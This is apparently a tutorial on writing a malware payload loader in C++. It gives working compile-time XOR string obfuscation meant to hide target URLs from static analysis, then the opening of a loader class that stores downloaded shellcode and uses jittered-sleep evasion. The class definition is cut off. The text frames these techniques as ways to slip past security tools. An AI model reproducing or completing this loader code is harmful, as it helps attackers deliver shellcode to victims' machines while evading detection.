
### String Obfuscation

Now the loader implements a clever compile-time string obfuscation system to hide sensitive strings from static analysis:

```cpp
// String obfuscation
#define XOR_KEY 0x42
template<int N>
struct ObfuscatedString {
    char data[N];
    constexpr ObfuscatedString(const char(&str)[N]) {
        for (int i = 0; i < N; i++) {
            data[i] = str[i] ^ XOR_KEY;
        }
    }
    
    std::string decrypt() const {
        std::string result;
        for (int i = 0; i < N - 1; i++) {
            result += (data[i] ^ XOR_KEY);
        }
        return result;
    }
};

#define OBFSTR(str) (ObfuscatedString<sizeof(str)>(str).decrypt())
```

This works because the encryption happens at compile time rather than runtime. The constexpr constructor means the XOR encryption occurs when the code is compiled, not when it executes. The strings get stored encrypted in the binary and are only decrypted when actually needed. Static analysis tools scanning the executable won't find your target URLs or other sensitive strings in plaintext.

The OBFSTR macro makes this easy to use throughout the code - you just wrap any string with it and the obfuscation happens automatically.

### The Main Loader Class

The loader is built around a single class that encapsulates all the functionality:

```cpp
class AdvancedPayloadLoader {
private:
    std::vector<BYTE> payload;
    std::mt19937 rng;
    
    // Simplified stealth configuration
    struct StealthConfig {
        bool useJitteredSleep = true;
    } stealthConfig;
```

The design is clean and focused. The payload vector stores the downloaded shellcode, while the random number generator provides randomization for evasion techniques. The StealthConfig struct controls behavioral features like jittered sleep timing. This keeps the loader lightweight while still providing the necessary evasion capabilities.
